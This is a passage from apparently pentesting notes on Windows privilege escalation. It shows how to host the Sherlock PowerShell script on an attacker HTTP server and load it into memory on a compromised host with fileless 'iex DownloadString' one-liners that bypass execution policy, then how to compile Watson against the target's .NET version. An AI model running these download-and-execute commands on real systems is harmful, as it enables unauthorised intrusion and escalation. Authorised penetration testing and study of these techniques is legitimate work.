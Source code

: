 

### Running Sherlock
Sherlock is a powershell library with a number of privledge escalation checkers built in. 
We can stage and run sherlock on a remote http server so the file never needs to hit the remote server's HDD.  
```bash
root@kali:~test# git clone https://github.com/rasta-mouse/Sherlock.git
Cloning into 'Sherlock'...
remote: Enumerating objects: 3, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (3/3), done.
remote: Total 75 (delta 0), reused 2 (delta 0), pack-reused 72
Unpacking objects: 100% (75/75), done.
root@kali:~test# cd Sherlock/
root@kali:~test/Sherlock# ls
LICENSE  README.md  Sherlock.ps1
root@kali:~test/Sherlock# echo Find-AllVulns >> Sherlock.ps1
root@kali:~test/Sherlock# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```
Now we can run this from the remote Windows CMD shell:  
```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/Sherlock.ps1'))"
```
Or from a Windows Powershell:
```powershell
PS C:\> IEX(New-Object Net.Webclient).downloadString('http://10.10.10.10/Sherlock.ps1')
```

### Running Watson
Sherlock has been superceded by a .net Windows enumeration platform called Watson which is frequently updated by the author.
It is a bit tricker to deploy and use as you need to compile it yourself and match the version of .net with the target system's version.

First, on the target system we will need to check the versions of .Net that have been installed by navigating to the .net framework folder and poking around:
```
cd\Windows\Microsoft.NET\Framework\
dir /s msbuild
```
Only active versions of .NET will have the msbuild.exe.
Make note of the available versions and leverage that to compile your version of Watson that targets the remote Windows machine.
Download the latest version of Watson from github:
```
git clone https://github.com/rasta-mouse/Watson.git
```
And open it using Visual Studio.  In the Solution Explorer, click the Properties and modify the "Target Framework:" value to align with the remote Windows machine's version of the .Net framework. It will prompt you to reopen the project. Once the project has reloaded, Build the project under the Release mode (CTRL + SHIFT + B).  
